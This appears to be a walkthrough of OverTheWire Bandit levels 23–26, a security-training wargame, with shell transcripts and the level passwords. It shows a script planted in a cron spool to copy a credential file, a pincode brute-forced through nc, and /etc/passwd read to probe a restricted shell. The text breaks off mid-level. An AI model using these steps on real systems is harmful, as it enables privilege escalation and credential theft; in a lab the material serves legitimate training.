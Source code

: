 bandit23@bandit:~$ 
andit23@bandit:~$ ls -l /var/spool/
total 12
dr-xr-x--- 3 bandit24 bandit23 4096 Sep  1 06:30 bandit24
drwxr-xr-x 3 root     root     4096 Aug 10 12:21 cron
lrwxrwxrwx 1 root     root        7 Aug 10 12:21 mail -> ../mail
drwx------ 2 syslog   adm      4096 Dec 30  2021 rsyslog
bandit23@bandit:~$ mktemp -d
/tmp/tmp.Y5nI8QP62y
bandit23@bandit:~$ cd /tmp/tmp.Y5nI8QP62y
andit23@bandit:/tmp/tmp.Y5nI8QP62y$ chmod o+rwx ../tmp.Y5nI8QP62y
bandit23@bandit:/tmp/tmp.Y5nI8QP62y$ touch script.sh
bandit23@bandit:/tmp/tmp.Y5nI8QP62y$ chmod +x script.sh 
bandit23@bandit:/tmp/tmp.Y5nI8QP62y$ nano script.sh 
		#!/bin/bash
		cat /etc/bandit_pass/bandit24 >/tmp/tmp.Y5nI8QP62y/mypass24.txt

bandit23@bandit:/tmp/tmp.Y5nI8QP62y$ cp script.sh /var/spool/bandit24/foo/script.sh
bandit23@bandit:/tmp/tmp.Y5nI8QP62y$ watch -n 1 ls -l
bandit23@bandit:/tmp/tmp.Y5nI8QP62y$ ls
mypass24.txt  script.sh
bandit23@bandit:/tmp/tmp.Y5nI8QP62y$ cat mypass24.txt 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar


Bandit Level 24 → Level 25
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
    1  ls /etc/cron.d/cronjob_bandit
    2  mktemp -d
    3  cd /tmp/tmp.L6q1V5PzZP
    4  touch script,sh
    5  touch script.sh
    6  ls
    7  rm script,sh 
    8  ls
    9  chmod +x script.sh 
   10  nano script.sh
   11  ./script.sh 
   12  ./script.sh > dictionay.txt
   13  cat dictionay.txt | wc -l
   14  cat dictionay.txt | nc localhost 30002
   15  cat dictionay.txt | nc localhost 30002 | grep -v -E "Wrong|Please"

bandit24@bandit:/tmp/tmp.L6q1V5PzZP$ cat dictionay.txt | nc localhost 30002 | grep -v -E "Wrong|Please"
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.

Bandit Level 25 → Level 26
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh
